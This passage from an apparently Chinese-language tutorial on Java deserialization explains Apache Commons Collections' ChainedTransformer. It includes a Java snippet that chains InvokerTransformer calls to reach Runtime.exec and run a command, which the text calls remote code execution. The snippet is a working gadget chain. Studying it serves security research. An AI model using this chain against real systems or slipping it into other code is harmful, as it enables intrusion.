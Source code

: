 
### ChainedTransformer#transform
![-w574](media/15923231349853/15923315049642.jpg)
对transformers列表逐个`transform`，并且把上次的结果作为下次`transform`的参数。这个类完美地满足需要反复调用的需求，使用方法可以概括为：
1. 定义transformer list，注意成员顺序，之后会按照list顺序加载transformer执行`transform`
2. 用步骤1创建的transformer list，实例化1个`ChainedTransformer`
3. 调用`ChainedTransformer#transform`

下面代码可以实现rce
```
public static void testChainedTransformer() throws Exception {
    Class cls = Runtime.class;
    Transformer[] transformers = new Transformer[]{
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/XiaoC"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    chain.transform(cls);
}
```
